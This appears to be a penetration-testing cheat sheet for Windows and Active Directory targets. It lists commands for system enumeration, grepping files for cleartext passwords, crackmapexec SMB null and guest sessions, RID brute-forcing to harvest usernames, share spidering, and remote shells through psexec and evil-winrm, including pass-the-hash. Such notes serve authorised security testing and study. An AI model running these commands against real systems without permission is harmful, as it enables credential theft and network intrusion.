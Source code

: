 Check OS architecture / version:
```powershell
ver
wmic os get osarchitecture
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
```

Get routes:
```powershell
route PRINT
```

Get running processes:

```powershell
tasklist /SVC
```

Get installed patches:

```powershell
wmic qfe
```

Search for cleartext passwords:
```powershell
findstr /si password *.txt
findstr /spin "password" *.*
```

```

Add domain NB name to /etc/hosts

```shell
crackmapexec smb $TARGET_IP -u '' -p ''
```

Enumerate users by bruteforcing RID
#rid #bruteforce-rid

```shell
crackmapexec smb $AD_DOMAIN -u $USER -p '' --rid-brute 10000
#extract usernames
crackmapexec smb $AD_DOMAIN -u $USER -p '' --rid-brute 10000 | grep -o '\\[^ ]*' | awk -F'\\' '{print $2}' | uniq
```

Show all files and DIRs for guest:

```shell
crackmapexec smb $TARGET_IP -u 'guest' -p '' -M spider_plus
```

```shell
crackmapexec smb $TARGET_IP -u $USER -p $PASSWORD -M spider_plus --spider users
```

Parse the JSON from the previous cmd into readable form:

```shell
cat $TARGET_IP.json | jq '. |map_values(keys)'
```

Try to connect to console:

```shell
impacket-psexec $USER@$TARGET_IP
```

```shell
evil-winrm -i $TARGET_IP -u administrator -p $PASSWORD
```

```shell
evil-winrm -i $TARGET_IP -u administrator -H $HASH
```

```sh
crackmapexec winrm $TARGET_IP -u $USER -p $PASSWORD
```


Port 3389 RDP:

```sh
xfreerdp /v:$TARGET_IP /u:$USER
```